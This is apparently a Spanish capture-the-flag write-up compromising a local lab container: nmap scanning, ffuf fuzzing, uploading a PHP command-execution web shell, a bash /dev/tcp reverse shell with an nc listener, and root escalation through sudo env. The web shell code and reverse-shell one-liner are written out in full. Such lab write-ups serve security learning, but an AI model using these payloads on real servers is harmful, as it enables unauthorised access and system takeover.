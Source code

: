 Fecha: 05/09/2024

Comienzo haciendo nmap:
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240905153504.png)
Comienzo inspeccionando la página del puerto 80, sin encontrar nada interesante, así que hago fuzzing: 

```shell
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](imágenes/Pasted%20image%2020240905153726.png)

Por lo que parece hay un directorio /uploads, así que es posible que se pueda hacer Local File Inclusion. 

Desde /upload.php se pueden subir archivos, subiré una shell de php desde la que poder hacerme una reverse shell: 

![](imágenes/Pasted%20image%2020240905153824.png)

```php
SHELL:  
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Me deja subirlo sin ningún problema, así que accedo a él a través del directorio /uploads:
![](imágenes/Pasted%20image%2020240905154321.png)

```bash
# En la linea de comandos virtual:
bash -c 'bash -i >& /dev/tcp/172.17.0.1/9001 0>&1'
# En mi máquina atacante:
nc -lvnp 9001
```

Lo primero que haré será tratar la tty: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

Veo que puedo ejecutar env como root sin necesidad de usar la contraseña:
![](imágenes/Pasted%20image%2020240905154430.png)

Miro en https://gtfobins.github.io/gtfobins/env/#sudo y encuentro que ejecutando `sudo env /bin/bash`: 
![](imágenes/Pasted%20image%2020240905154520.png)
